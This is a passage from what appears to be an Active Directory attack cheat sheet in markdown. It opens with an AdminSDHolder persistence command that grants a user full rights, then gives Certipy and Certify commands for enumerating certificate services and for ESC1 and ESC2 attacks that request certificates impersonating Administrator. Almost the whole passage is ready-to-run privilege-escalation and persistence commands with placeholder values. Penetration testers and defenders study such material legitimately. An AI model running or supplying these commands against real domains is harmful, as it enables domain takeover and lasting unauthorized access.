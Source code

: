 ### **3. AdminSDHolder**

#### **Windows:**
```powershell
# PowerView
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=domain,DC=com' -PrincipalIdentity username -Rights All
```

---

## 🛠️ **Advanced Certificate Attacks (ADCS)**

### **🔍 Certificate Enumeration**

#### **Linux:**
```bash
# Certipy Complete Enumeration
certipy find -u username@domain.com -p password -dc-ip DC_IP -stdout
certipy find -u username@domain.com -p password -dc-ip DC_IP -vulnerable -enabled
certipy ca -u username@domain.com -p password -dc-ip DC_IP -ca CA_NAME
```

#### **Windows:**
```powershell
# Certify Complete Enumeration
.\Certify.exe find /vulnerable /currentuser
.\Certify.exe find /vulnerable /machineidentity
.\Certify.exe cas
.\Certify.exe pkiobjects
```

### **🎯 ESC1-8 Attack Scenarios**

#### **ESC1 - Vulnerable Certificate Templates**
```bash
# Linux - Certipy
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template VulnTemplate -alt Administrator@domain.com
certipy auth -pfx administrator.pfx -dc-ip DC_IP

# Windows - Certify
.\Certify.exe request /ca:CA_SERVER\CA_NAME /template:VulnTemplate /altname:Administrator
```

#### **ESC2 - Any Purpose EKU**
```bash
# Request certificate with Any Purpose EKU
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template AnyPurpose -alt Administrator@domain.com
```
